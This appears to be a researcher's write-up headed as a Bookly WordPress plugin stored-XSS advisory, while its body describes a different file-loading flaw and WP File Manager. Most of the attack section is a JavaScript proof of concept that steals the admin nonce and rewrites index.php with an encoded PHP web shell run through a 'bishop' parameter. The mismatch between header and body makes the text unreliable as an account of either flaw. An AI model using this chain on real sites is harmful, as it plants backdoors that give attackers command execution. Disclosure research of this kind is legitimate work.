
  author: 'Daniel',
  date: '2024-02',
  title: 'WordPress Online Booking and Scheduling Plugin',
  description:
    'XSS',
}

  title: article.title,
  description: article.description,
}






WordPress Online Booking and Scheduling Plugin – Bookly {'<='} 23.2 - Authenticated (Subscriber+) Stored Cross-Site Scripting via Color Profile Parameter

![https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/bookly-responsive-appointment-booking-tool/wordpress-online-booking-and-scheduling-plugin-bookly-232-authenticated-subscriber-stored-cross-site-scripting-via-color-profile-parameter]

The WordPress Online Booking and Scheduling Plugin – Bookly plugin for WordPress is vulnerable to Stored Cross-Site Scripting via the Color Profile parameter in all versions up to, and including, 23.2 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with the staff member role and Subscriber-level access and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page.



Initially carrying out checks for LFI noticed the Language select field would try to get a
Javascript file depending on the language selected. A request was still made when the field was
empty, and directory traversal was possible with "../".
A ".js" is appended to the query, initially I tried splitting the URL with null bytes, converting the
lang parameter to another query, adding # for a split on the fragment, while it may be possible; I
moved on.


Given the "lang" parameter is requesting a JavaScript file and we can have the freedom to
control where the victim retrieves it from. We need to create a malicious JavaScript file; fairly
typical for CSRF vulnerabilities to exploit the privileges of the victim to promote an attackers
account, this attack doesn't specifically require the attack to be authenticated; so long as they
can get a JavaScript file on the host. The Proof of concept script allows Remote Code
Execution by getting the Administrator to edit a WordPress PHP file, appending basic Web Shell
capabilities.


## Proof of Concept

The genRid function is copied from WP File Manager, it is appended to the end of POST
requests.

```javascript

    function genRid(){
        return reqId = (+ new Date()).toString(16) + Math.floor(1000 * Math.random()).toString(16);
    }

```

The WordPress Nonce is read from the document object available when the script is first called.

```javascript

    var nonceget = document.querySelector("#file_manager_free_shortcode_admin-jsextra").text;
    nonce = nonceget.slice(89,99);

```

The initial XMLHttpRequest utilizes the WordPress nonce and retrieves a list of files from WP
File Manager.

```javascript

    var req1 = new XMLHttpRequest();
    req1.open('GET', `http://127.0.0.1:1337/wp-admin/admin-ajax.php?action=mk_file_folder_manager&_wpnonce=${nonce}&networkhref=&cmd=open&target=l1_Lw&init=1&tree=1&_=1707815126701`, false);
    req1.withCredentials = true;
    req1.send();
    var obj = JSON.parse(req1.response);
```

If the resulting Object returns with files; index.php is located. 

```javascript
    
    if (obj['files']){
        obj['files'].forEach(element => { if (element['mime'] == "text/x-php" && element['name'] == "index.php") { editFile(element); } }); 
    } 
```

Finally the file is edited with a XMLHttpRequest inserting malicious PHP along with the exsisting file content in the base WordPress index.php file.

```javascript

    function editFile(element){
        
        var payload = "%3C%3Fphp%0Adefine(+'WP_USE_THEMES'%2C+true+)%3B%0Arequire+__DIR__+.+'%2Fwp-blogheader.php'%3B%0A%0Aif+(isset(%24_REQUEST%5B%22bishop%22%5D))%7B%0A%09echo+system(%24_REQUEST%5B%22bishop%22%5D)%3B%0A%7D%3B";
        var params = `action=mk_file_folder_manager&_wpnonce=${nonce}&networkhref=&cmd=put&target=${element["hash"]}&encoding=UTF-8&content=${payload}&reqid=${genRid()}`;
        var freq = new XMLHttpRequest();
        freq.open('POST', 'http://127.0.0.1:1337/wp-admin/admin-ajax.php', false);
        freq.withCredentials = true;
        freq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        freq.send(params);
        var freqResponse = freq.response;
    }

```

If successful the system commands can be executed via appending a bishop parameter to the
index page.



